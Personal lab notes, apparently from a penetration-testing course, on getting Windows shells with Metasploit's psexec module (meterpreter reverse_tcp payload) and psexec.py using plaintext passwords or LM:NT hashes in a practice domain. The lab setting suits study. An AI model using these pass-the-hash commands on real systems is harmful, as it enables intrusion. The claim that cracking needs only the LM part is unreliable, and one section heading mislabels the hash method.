



.....using the things that were found before (SAM Hashes)

Different ways:
1. Through Metasploit - with a password    `exploit/windows/smb/psexec`            NOISY
2. Through Metasploit - with a hash    `exploit/windows/smb/psexec`               NOISY
3. Through psexec - with a password
   `psexec.py marvel.local/fcastle:'Password1';@<IP>`
4. Through psexec - with a hash
   `psexec.py administrator@<IP> -hashes LM:NT`

---

## Lab

### Metasploit method using password
1. load msfconsole
2. searched `psexec`
3. chose `exploit/windows/smb/psexec`
4. made sure payload is for windows x64. 
   It was not, so in msfconsole => `set payload windows/x64/meterpreter/reverse_tcp`
5. I am attacking fcastle so......need to set options accordingly  

6. for targets, it was set to `automatic`, but `Native upload` works best and so does `Powershell`  

   MOF upload and Command do not work (it seems)
7. Run

---

#### **Note**: 
Shells can be backgrounded using `background` command while in shell
and to return to the shell, check the current running sessions by typing `sessions` and selecting the session. E.g. `sessions 1`  

---

#### **Note**: 
There are 2 parts of any hash - NT and LM  

- If cracking passwords, usually only the LM part is required
- But when doing relays or passing the hash, both the parts sepeated by `:` is required

---
### Metasploit method using password

- implemented similarly as the last one
- a few changes in the `msfconsole` were required tho
- smbuser needs to be set to administrator
- no smbdomain is required this time
- put the hash in smbpass  

- HENCE THERE WAS NO NEED TO CRACK THE PASSWORD
- got local admin shell because of password reuse

---
### PSEXEC.PY method using password

---
### PSEXEC.PY method using hash

---

#### Note:
other programs are also available
if `psexec.py` doesn't work
- `wmiexec`
- `smbexec`
works exactly like psexec

---

!!! SHELLS ARE NOT NECESSARILY NEEDED TO SUCCESSFULLY PWN A MACHINE
JUST SOMETHING TO HAVE IN CASE THAT IS REQUIRED !!!

